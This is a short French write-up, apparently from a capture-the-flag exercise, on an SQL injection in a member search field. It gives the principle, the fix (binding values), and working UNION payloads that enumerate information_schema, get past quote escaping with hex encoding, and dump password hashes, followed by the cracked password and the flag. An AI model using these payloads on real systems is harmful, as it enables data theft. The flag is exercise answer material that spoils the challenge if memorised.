 Security breach name 	: Injection Sql

Principle 				: Utilisé des inputs mal protégés pour accéder à des données sensibles de la base de données, en modifiant les requêtes faites sur celle-ci.

Solve 					: Ne pas insérer directement les valeurs entré par un utilisateur dans une requête Sql, il existe plusieurs méthodes : binder les valeurs, stringifier les valeurs..

In case 				: Dans la barres de recherche membre, la valeurs entré est diretement inséré dans la requêtes ce qui nous permet dans une certaines mesures de modifier sont sens. 
							(La requêtes n'accepte que deux arguments pour le select)
							
							1 - 1 union select table_schema,table_name from information_schema.tables , nous permet de faire apparaître l'ensemble des informations promaires concernant la base de données.

							2 - 1 union select null,group_concat(column_name) from information_schema.columns where table_name = 0x7573657273 , les quotes étant échappées par le contrôleur on modifie la valeur de du string par sa valeur hexa ce qui nous permet de nous passer des quotes.

							3 - 1 union select Commentaire,countersign from users
							{
								ID: 1 union select Commentaire,countersign from users
								First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
								Surname : 5ff9d0165b4f92b14994e5c685cdce28
							}
							{
								md5 hash : 5ff9d0165b4f92b14994e5c685cdce28 =  FortyTwo
								lower all char  = fortytwo
								hash Sh256 = 4A474D7856BE3C7FCB262B8E2E931E20FC8EC61FEBD184F40D5D0452C291ED22
							}